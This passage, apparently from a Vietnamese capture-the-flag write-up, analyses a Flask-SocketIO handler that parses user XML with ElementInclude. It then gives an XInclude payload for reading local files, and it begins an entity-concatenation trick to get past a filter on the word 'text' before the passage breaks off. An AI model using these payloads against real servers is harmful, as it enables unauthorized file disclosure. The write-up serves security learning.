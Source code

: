 ```js
$('.form').submit(function(){
    socket.send($('#xpath').val(), $('#xml').val())
})
```

Test thử xem sao:

![socket_connected](https://user-images.githubusercontent.com/82533607/147850835-c6220de1-ba84-482b-b38f-da04f3c15ecc.png)

Vậy là đã xong phần socket, bây giờ cần phân tích source code một chút, cụ thể là phần `message`:

```python
@socketio.on('message')
def handle_message(xpath, xml):
	if len(xpath) != 0 and len(xml) != 0 and "text" not in xml.lower():
		try:
			res = ''
			root = ElementTree.fromstring(xml.strip())
			ElementInclude.include(root)
			for elem in root.findall(xpath):
				if elem.text != "":
					res += elem.text + ", "
			emit('result', res[:-2])
		except Exception as e:
			emit('result', 'Nani?')
	else:
		emit('result', 'Nani?')
```

## Exploit

Đọc qua thì sẽ thấy phần này khá giống bài [X-Service](https://dauhoangtai.github.io/ctf/2021/11/13/WRITEUP-SVATTT-FINAL-2021-WEB.html#challenge-x-service) của vòng chung kết SVATTT 2021.

Ta có thể sử dụng payload sau:

```xml
<?xml version='1.0'?>
<document xmlns:xi="http://www.w3.org/2001/XInclude">
  <xi:include href="path_of_the_file" parse="text"/>
</document>
```

Nhưng có một vấn đề là, `text` bị filter, sau khi đọc qua doc của [xi:include](https://www.w3.org/TR/xinclude-11) thì mình nhận ra rằng, chẳng có `parser` nào có thể giải quyết vấn đề này, vì vậy, chỉ còn cách làm thế nào để `text` xuất hiện mà không bị filter.

Thực ra mọi chuyện khá đơn giản, chúng ta có thể dùng phương pháp `concat` như sau:

- Đầu tiên, define 2 biến `te` và `xt` thông qua `ENTITY`

```xml
<?xml version='1.0'?>
<!DOCTYPE resources [
  <!ENTITY te "te">
  <!ENTITY xt "xt">
]>
```
